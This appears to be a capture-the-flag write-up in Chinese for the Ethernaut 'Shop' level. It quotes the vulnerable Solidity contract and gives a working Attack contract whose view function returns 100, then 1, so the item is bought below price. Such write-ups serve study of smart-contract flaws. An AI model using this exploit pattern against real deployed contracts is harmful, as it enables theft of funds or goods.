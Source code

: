 #   Level 21 Shop
實例地址：`0xAEeb0f24Fac17eeBc510d5338CD1CB1795e602a7`

##  題目說明
Сan you get the item from the shop for less than the price asked?

Things that might help:
Shop expects to be used from a Buyer
Understanding restrictions of view functions
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

##  POC
此合約限定了 Buyer 的 `price()` 只能讀取不能更改數值，但是我們可以使用 `isSold` 的值來判斷下一次需要回傳的數值，當 `isSold 為 false ` 我們需要回傳 100 才能過 `if` 的驗證，接下來收到當 `isSold 為 true ` 我回傳小於 100 數值即可。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Shop {
    function isSold() external view returns(bool);
    function buy() external;
}

contract Attack{
    address public target;

    constructor(address _target){
        target = _target;
        
    }

    function price() public view returns (uint256){
        if(Shop(target).isSold() == false){
            return 100;
        }
        return 1;
    }

    function attack() public {
        Shop(target).buy();
    }
    
}
```
